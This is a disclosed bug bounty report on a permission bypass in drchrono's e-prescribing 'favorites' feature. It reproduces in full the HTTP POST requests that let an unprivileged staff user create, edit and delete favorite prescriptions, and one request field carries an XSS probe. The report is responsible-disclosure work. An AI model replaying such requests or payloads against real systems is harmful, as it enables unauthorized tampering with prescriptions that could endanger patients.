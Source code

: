 # User with no permissions can create, edit, delete favorite prescriptions /erx/

## Report Details
- **Report ID**: 142101
- **URL**: https://hackerone.com/reports/142101
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-05-30T17:50:41.511Z
- **Disclosed**: 2016-11-25T16:00:43.407Z

## Reporter
- **Username**: yaworsk
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: drchrono

## Vulnerability Information
Hi All,
I believe I've found a vulnerability with regards to creating, editing and deleting favorite prescriptions.

##Description
I have a doctor's organization with a staff member who has no permissions. If I visit ```https://1337test.drchrono.com/erx/``` I get permission denied. However, I can create, edit and delete favorites by making the appropriate POST call:

###Create
```
POST /erx/favorites/save_prescription/ HTTP/1.1
Host: 1337test.drchrono.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
X-NewRelic-ID: VQYOWFNSGwcJVVhSAQ==
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded;charset=utf-8
X-CSRFToken: Ty5kAW6cbjyRwTP0m5275oki638NFHal
Referer: https://1337test.drchrono.com
Content-Length: 1174
Cookie: REDACTED
Connection: close

data=%7B%22refills%22%3A%221%22%2C%22freetext%22%3A%22apply%20milligram(s)%20implant%203%20times%20a%20day%20as%20needed%20%20x2%20doses%20%22%2C%22sigtype%22%3A%22freetext%22%2C%22dispense%22%3A1%2C%22route%22%3A%22ophthalmic%22%2C%22drug_id%22%3A%22d01219%22%2C%22note%22%3A%22%3Cimg%20src%3Dx%20onerror%3Dalert(1)%3E%5B%5B5*5%5D%5D%22%2C%22doseform%22%3A%22test%22%2C%22drug_search%22%3A%22BioGlo%201%20mg%20ophthalmic%20test%22%2C%22frequency%22%3A%22%22%2C%22sig%22%3A%22apply%20milligram(s)%20implant%203%20times%20a%20day%20as%20needed%20%20x2%20doses%20%22%2C%22dispense_as_written%22%3Afalse%2C%22genproduct_id%22%3A3207%2C%22ncit_code%22%3A%22C28253%22%2C%22unit_display%22%3A%22milligram(s)%22%2C%22pkg_product_id%22%3A%2217238090011%22%2C%22dosage%22%3A%221.000%20milligram(s)%22%2C%22drugtype_choice%22%3A0%2C%22drugtype%22%3A%22%22%2C%22patient_instructions%22%3A%7B%22dose%22%3A%22apply%22%2C%22unit%22%3A%22milligram(s)%22%2C%22route%22%3A%22implant%22%2C%22frequency%22%3A%223%20times%20a%20day%22%2C%22frequency_time%22%3A%22as%20needed%20%22%2C%22duration%22%3A%22x2%20doses%22%2C%22as_needed%22%3Afalse%7D%2C%22brand_name%22%3Atrue%2C%22otc%22%3Afalse%7D
```

###Edit
```
POST /erx/favorites/save_prescription/64808/ HTTP/1.1
Host: 1337test.drchrono.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
X-NewRelic-ID: VQYOWFNSGwcJVVhSAQ==
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded;charset=utf-8
X-CSRFToken: Ty5kAW6cbjyRwTP0m5275oki638NFHal
Referer: https://1337test.drchrono.com
Content-Length: 1177
Cookie: REDACTED
Connection: close

data=%7B%22refills%22%3A%2299%22%2C%22freetext%22%3A%22apply%20milligram(s)%20implant%203%20times%20a%20day%20as%20needed%20%20x2%20doses%20%22%2C%22sigtype%22%3A%22freetext%22%2C%22dispense%22%3A1%2C%22route%22%3A%22ophthalmic%22%2C%22drug_id%22%3A%22d01219%22%2C%22note%22%3A%22%3Cimg%20src%3Dx%20onerror%3Dalert(1)%3E%5B%5B5*5%5D%5D%22%2C%22doseform%22%3A%22test%22%2C%22drug_search%22%3A%22BioGlo%201%20mg%20ophthalmic%20test%22%2C%22frequency%22%3A%22%22%2C%22sig%22%3A%22apply%20milligram(s)%20implant%203%20times%20a%20day%20as%20needed%20%20x2%20doses%20%22%2C%22dispense_as_written%22%3Afalse%2C%22genproduct_id%22%3A3207%2C%22ncit_code%22%3A%22C28253%22%2C%22unit_display%22%3A%22milligram(s)%22%2C%22pkg_product_id%22%3A%2217238090011%22%2C%22dosage%22%3A%221.000%20milligram(s)%22%2C%22drugtype_choice%22%3A0%2C%22drugtype%22%3A%22SI%22%2C%22patient_instructions%22%3A%7B%22frequency_time%22%3A%22as%20needed%20%22%2C%22route%22%3A%22implant%22%2C%22dose%22%3A%22apply%22%2C%22frequency%22%3A%223%20times%20a%20day%22%2C%22duration%22%3A%22x2%20doses%22%2C%22as_needed%22%3Afalse%2C%22unit%22%3A%22milligram(s)%22%7D%2C%22brand_name%22%3Atrue%2C%22otc%22%3Afalse%7D
```

###Delete
```
POST /erx/favorites/delete_prescription/ HTTP/1.1
Host: 1337test.drchrono.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
X-NewRelic-ID: VQYOWFNSGwcJVVhSAQ==
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded;charset=utf-8
X-CSRFToken: Ty5kAW6cbjyRwTP0m5275oki638NFHal
Referer: https://1337test.drchrono.com
Content-Length: 8
Cookie: REDACTED
Connection: close

id=64810
```

##Steps to reproduce
1. Create a doctors organization
2. Create a staff member with no permissions
3. Logout and log in as the staff member with no permissions
4. Replicated the calls above substituting your cookies, CSRF, etc.

##Vulnerability
This is another permission by pass. However, the most severe potential I see here is the ability for an attacker to modify a favorite which a doctor doesn't realize and then uses to prescribe to a patient.

Please let me know if you have any questions.
Pete

## Attachments
No attachments
